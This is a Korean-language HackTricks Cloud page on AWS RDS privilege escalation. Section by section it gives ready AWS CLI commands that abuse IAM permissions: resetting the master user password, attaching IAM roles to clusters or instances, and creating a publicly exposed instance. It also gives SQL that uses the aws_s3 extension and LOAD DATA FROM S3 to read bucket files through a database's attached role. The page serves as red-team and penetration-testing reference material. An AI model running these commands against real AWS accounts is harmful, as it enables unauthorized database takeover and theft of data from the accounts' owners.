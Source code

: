 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **PR을 제출하여 해킹 트릭을 공유하세요** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에.

</details>
{% endhint %}

## RDS - Relational Database Service

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 사용하면 공격자는 **마스터 사용자의 비밀번호를 수정**하고 데이터베이스에 로그인할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연결할 수 있어야 합니다** (일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적 영향:** 데이터베이스 내의 민감한 정보를 찾습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS Role IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행하여 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스** 안에 있다는 것을 알 수 있습니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 접근하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장을 확인하여 이를 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 발견하면 이 데이터베이스가 **S3에 대한 어떤 종류의 접근 권한을 가지고 있다**고 가정할 수 있습니다 (다른 확장으로는 **`aws_ml`** 및 **`aws_lambda`** 등이 있습니다).

또한, **`aws rds describe-db-clusters`** 명령을 실행할 수 있는 권한이 있다면 **클러스터에 IAM Role이 연결되어 있는지** **`AssociatedRoles`** 필드에서 확인할 수 있습니다. 만약 연결되어 있다면, 데이터베이스가 **다른 AWS 서비스에 접근할 수 있도록 준비되었다**고 가정할 수 있습니다. **역할의 이름**을 기반으로 (또는 역할의 **권한**을 얻을 수 있다면) 데이터베이스가 어떤 추가 접근 권한을 가지고 있는지 **추측**할 수 있습니다.

이제 **버킷 내부의 파일을 읽기 위해서는** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
```markdown
If you had **raw AWS credentials** you could also use them to access S3 data with:

**raw AWS credentials**가 있다면 다음을 사용하여 S3 데이터에 접근할 수도 있습니다:
```
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql은 S3에 접근하기 위해 **어떤 파라미터 그룹 변수도 변경할 필요가 없습니다**.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내부에서 **`SELECT User, Host FROM mysql.user;`** 쿼리를 실행하고 **`rdsadmin`**이라는 사용자가 있으면, **AWS RDS mysql db** 안에 있다고 가정할 수 있습니다.
{% endhint %}

mysql 내부에서 **`show variables;`**를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**와 같은 변수에 값이 있으면, 데이터베이스가 S3 데이터를 접근할 준비가 되어 있다고 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 권한이 있으면 클러스터에 **연관된 역할**이 있는지 확인할 수 있습니다. 이는 보통 AWS 서비스에 대한 접근을 의미합니다.

이제 **버킷 내부의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster`와 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할을 기존 RDS 인스턴스에 추가**할 수 있습니다. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내 데이터를 수정할 수 있게 할 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potential Impact**: RDS 인스턴스의 민감한 데이터에 접근하거나 데이터의 무단 수정.\
일부 DB는 Mysql과 같이 추가 구성이 필요하며, 이는 파라미터 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 **이미 존재하는 클러스터 내에 새로운 인스턴스를 생성**할 수 있으며, 이 클러스터에는 **IAM 역할**이 연결되어 있습니다. 공격자는 마스터 사용자 비밀번호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출시킬 수 있습니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

`rds:CreateDBInstance`와 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 부여된 새로운 RDS 인스턴스를 생성**할 수 있습니다. 그런 다음 공격자는 잠재적으로 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
첨부할 역할/인스턴스 프로필의 몇 가지 요구 사항 (출처: [**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* 프로필은 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 관련된 IAM 역할 이름은 접두사 `AWSRDSCustom`으로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potential Impact**: RDS 인스턴스의 민감한 데이터에 접근하거나 데이터를 무단으로 수정할 수 있습니다.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`와 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할을 기존 RDS 인스턴스에 추가**할 수 있습니다. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.

{% hint style="warning" %}
DB 인스턴스는 클러스터 외부에 있어야 합니다
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: RDS 인스턴스의 민감한 데이터에 접근하거나 데이터의 무단 수정.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
